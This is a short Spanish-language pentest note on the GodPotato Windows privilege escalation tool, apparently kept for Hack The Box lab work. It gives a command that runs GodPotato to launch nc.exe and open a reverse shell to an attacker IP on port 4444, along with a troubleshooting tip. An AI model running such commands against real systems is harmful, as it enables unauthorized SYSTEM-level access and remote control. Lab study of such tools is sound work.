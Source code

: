 
## DESCRIPTION
Es una variante de ROGUE POTATO, si te falla todo lo demás prueba este, que suele funcionar.


#### Mas información
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
* https://github.com/BeichenDream/GodPotato


## EXPLOITATION

1. Subelo a la máquina [[TRANSFERRING FILES]]

2. Ejecutalo

```
./GodPotato1.exe -cmd "cmd /c c:\programdata\nc.exe -e cmd.exe 192.168.119.169 4444"
```

![[Pasted image 20230419205645.png]]


**!!NOTA IMPORTANTE!!** 
* Puede que funcione con errores al ejecutar comando por ejemplo `whoami` o cualquier ejecutables Pues no se por que pero se me ha solucionado ejecutando antes Rogue Potato, aunque no funcione:

Por ejemplo:
![[Pasted image 20230419205419.png]]

![[Pasted image 20230419205531.png]]

Tras ejecutarlo unas cuantas de veces:

![[Pasted image 20230419205611.png]]


## MACHINES

* Hack The Box: 


**!!NOTA IMPORTANTE!!** 